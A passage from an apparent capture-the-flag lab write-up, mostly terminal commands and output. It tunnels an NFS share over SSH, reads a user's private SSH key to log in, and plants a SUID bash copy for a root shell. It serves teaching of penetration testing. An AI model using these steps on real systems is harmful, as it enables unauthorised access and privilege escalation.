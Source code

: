 Since I already put a key in authorized_keys and I now knew the port the share was on (2049), I ran the following from my Attack box to tunnel the share out.
```
┌──(kali㉿heart)-[~]
└─$ ssh paradox@10.10.68.24 -L 2049:localhost:2049
Last login: Sun Jan 24 21:58:31 2021 from 10.2.59.152
[paradox@ip-10-10-68-24 ~]$
```
Back on my attack box, I used tricks from the Hacktricks page LinPEAS recommended to mount james' home directory.
```
┌──(kali㉿heart)-[~/THM]
└─$ mkdir nfs
┌──(kali㉿heart)-[~/THM]
└─$ sudo mount -v -t nfs localhost:/ /home/kali/THM/nfs
mount.nfs: timeout set for Sun Jan 24 14:04:55 2021
mount.nfs: trying text-based options 'vers=4.2,addr=127.0.0.1,clientaddr=127.0.0.1'
mount.nfs: mount(2): Invalid argument
mount.nfs: trying text-based options 'vers=4.1,addr=127.0.0.1,clientaddr=127.0.0.1'
mount.nfs: mount(2): Invalid argument
mount.nfs: trying text-based options 'vers=4.0,addr=127.0.0.1,clientaddr=127.0.0.1'
┌──(kali㉿heart)-[~/THM]
└─$ ls -a nfs
.  ..  .bash_history  .bash_logout  .bash_profile  .bashrc  .ssh  user.flag
┌──(kali㉿heart)-[~/THM]
└─$ cat nfs/user.flag
thm{censored}
```
The .ssh folder looks promising for escalation.
```
┌──(kali㉿heart)-[~/THM]
└─$ cd nfs/.ssh
┌──(kali㉿heart)-[~/THM/nfs/.ssh]
└─$ ls
authorized_keys  id_rsa  id_rsa.pub
┌──(kali㉿heart)-[~/THM/nfs/.ssh]
└─$ ssh james@10.10.68.24 -i id_rsa
Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145
[james@ip-10-10-68-24 ~]$
```
Running LinPEAS as james didn't uncover anything new. I thought for a bit and realized I had root permissions in james' home folder when mounted on my Attack box, so I could create a root privilege generator with /bin/bash and a simple addition of a SUID bit!
```
┌──(kali㉿heart)-[~/THM/nfs]
└─$ cp /bin/bash .
┌──(kali㉿heart)-[~/THM/nfs]
└─$ chmod +s bash
...
[james@ip-10-10-68-24 ~]$ ls
bash  user.flag
[james@ip-10-10-68-24 ~]$ ./bash -p
./bash: /lib64/libtinfo.so.6: no version information available (required by ./bash)
```
Uh oh, incompatible versions. Let's use their /bin/bash instead, as I probably should've from the start!
```
[james@ip-10-10-68-24 ~]$ rm bash
rm: remove write-protected regular file 'bash'? y
[james@ip-10-10-68-24 ~]$ cp /bin/bash .
[james@ip-10-10-68-24 ~]$ ls -l bash
-rwxr-xr-x 1 james james 1219248 Jan 24 22:50 bash
...
┌──(kali㉿heart)-[~/THM/nfs]
└─$ sudo su
```